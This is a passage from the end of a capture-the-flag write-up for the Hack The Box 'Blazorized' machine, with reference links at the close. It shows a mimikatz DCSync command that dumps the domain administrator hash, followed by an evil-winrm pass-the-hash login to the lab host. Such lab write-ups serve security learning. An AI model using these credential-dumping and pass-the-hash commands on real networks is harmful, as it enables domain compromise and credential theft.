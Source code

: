 Execute mimikatz with `.\mimikatz.exe` and to get the admin hash, run the following command.

```
lsadump::dcsync /domain:blazorized.htb /user:administrator
```

![admin password hash](/images/HTB-Blazorized/admin-hash.png)

Now we login as `Administrator` with the hash, and read the root flag.

```
 evil-winrm -i 10.10.11.22 -u Administrator -H "f55ed1465179ba374ec1cad05b34a5f3" 
```

![Root flag](/images/HTB-Blazorized/root_flag.png)

This was a great box, I learned a lot pawning it. Below are some references that were useful to me. Thank you for reading this article and I hope it was of any help to you.

* [HackTricks - DCSync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
* [SPN-jacking](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/)
* [ASP.NET Core Blazor WebAssembly .NET runtime and app bundle caching](https://learn.microsoft.com/en-us/aspnet/core/blazor/host-and-deploy/webassembly-caching/?view=aspnetcore-8.0)
* [Blazor Web App structure](https://github.com/dotnet/AspNetCore.Docs/blob/main/aspnetcore/blazor/project-structure.md#blazor-web-app)
